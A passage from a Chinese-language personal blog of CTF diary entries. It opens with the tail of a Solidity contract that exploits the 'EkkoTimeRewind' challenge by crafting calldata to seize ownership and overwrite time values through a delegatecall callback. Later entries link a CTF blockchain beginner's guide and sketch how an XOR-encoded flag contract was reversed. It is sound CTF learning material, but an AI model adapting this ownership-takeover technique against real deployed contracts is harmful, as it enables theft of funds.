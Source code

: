 Ekko = EkkoTimeRewind(\_ekko);

}

function attack() public{

// Construct calldata

uint256 ZDriveOwner = uint256(uint160(address(this)));

bytes\[\] memory calldatas = new bytes\[\](1);

calldatas\[0\] = abi.encodeWithSignature("setZDriveowner(uint256,uint256)", ZDriveOwner, ZDriveOwner);

// Gain ownership

Ekko.setZDriveowner(calldatas);

// Construct calldata to set time

calldatas\[0\] = abi.encodeWithSignature("setRewindBeforeTime(uint256)", 11037);

// Set Time0 and Time1 to solve the problem

Ekko.setTime(calldatas);

}

function setRewindBeforeTime(uint256 \_Time0) public{

// Modify time when called with delegatecall

Time0 = \_Time0 + 11037;

Time1 = \_Time0;

}

}

\`\`\`

前面的参数完全照搬是为了和题目合约对齐，在合约部署完成之后调用attack即可，具体的和题目RPC交互的Web3py代码我就不写了


# 2025-08-21

摸鱼，把一年半之前挖的坑（CTF区块链入门指南）给埋上了：[CTF的Blockchain方向入门指南...？ | 9C±Void's Blog](https://cauliweak9.github.io/2024/04/28/Blockchain-Guide/)

唯一的遗憾就是不会Move啊Rust啊Cairo啊啥的，只能写点Solidity了〒▽〒

# 2025-08-20

昨天开摆了，今天也想摆，水道题吧，前几天LilCTF的区块链题目“生蚝的宝藏”

> 其实放题当天中午12点半就做出来了（因为在线下坐牢没事干），不过因为是借的别人的靶机打的所以也就没交（借我靶机的是我学弟，他没有提交本题flag，因此不存在影响比赛公平性的情况）

简单来说就是通过Ethereum JSON-RPC API获取指定合约的Runtime Bytecode，然后反编译进行逆向分析（Dedaub我的神），基本上扔给AI都能知道是进行了一次异或操作，而异或操作可逆，所以找到key和密文就行了

